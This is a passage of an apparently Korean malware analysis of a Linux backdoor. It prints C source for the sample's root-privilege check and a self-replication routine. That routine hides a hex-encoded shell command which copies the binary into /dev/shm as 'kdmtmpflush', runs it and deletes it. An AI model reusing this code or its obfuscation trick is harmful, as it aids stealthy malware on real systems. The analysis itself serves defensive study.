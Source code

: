 `/var/run/haldrund.pid`를 뮤텍스로 사용하여 중복 실행을 방지한다  

뮤텍스 이름은 변종에 따라 달라진다  
<br>

---

### 루트 권한 실행

```c
if (getuid() != 0) {
        return 0;
}
```

`getuid()` 함수를 사용하여 권한을 확인하고 루트 권한이 아닐 경우 프로세스를 종료한다  

루트 권한을 사용하여 Raw Socket 등을 사용하여 통신할 수 있다  
<br>

---

### 자가복제

```c
int to_open(char *name, char *tmp)
{
        char cmd[256] = {0};
        char fmt[] = {
                0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x72, 0x6d, 0x20, 0x2d, 0x66,
                0x20, 0x2f, 0x64, 0x65, 0x76, 0x2f, 0x73, 0x68, 0x6d, 0x2f,
                0x25, 0x73, 0x3b, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x63, 0x70,
                0x20, 0x25, 0x73, 0x20, 0x2f, 0x64, 0x65, 0x76, 0x2f, 0x73,
                0x68, 0x6d, 0x2f, 0x25, 0x73, 0x20, 0x26, 0x26, 0x20, 0x2f,
                0x62, 0x69, 0x6e, 0x2f, 0x63, 0x68, 0x6d, 0x6f, 0x64, 0x20,
                0x37, 0x35, 0x35, 0x20, 0x2f, 0x64, 0x65, 0x76, 0x2f, 0x73,
                0x68, 0x6d, 0x2f, 0x25, 0x73, 0x20, 0x26, 0x26, 0x20, 0x2f,
                0x64, 0x65, 0x76, 0x2f, 0x73, 0x68, 0x6d, 0x2f, 0x25, 0x73,
                0x20, 0x2d, 0x2d, 0x69, 0x6e, 0x69, 0x74, 0x20, 0x26, 0x26,
                0x20, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x72, 0x6d, 0x20, 0x2d,
                0x66, 0x20, 0x2f, 0x64, 0x65, 0x76, 0x2f, 0x73, 0x68, 0x6d,
                0x2f, 0x25, 0x73, 0x00}; // /bin/rm -f /dev/shm/%s;/bin/cp %s /dev/shm/%s && /bin/chmod 755 /dev/shm/%s && /dev/shm/%s --init && /bin/rm -f /dev/shm/%s
 
        snprintf(cmd, sizeof(cmd), fmt, tmp, name, tmp, tmp, tmp, tmp);
        system(cmd);
        sleep(2);
        if (access(pid_path, R_OK) == 0)
                return 0;
        return 1;
}

...

if (argc == 1) {
        if (to_open(argv[0], "kdmtmpflush") == 0)
                _exit(0);
        _exit(-1);
}
```
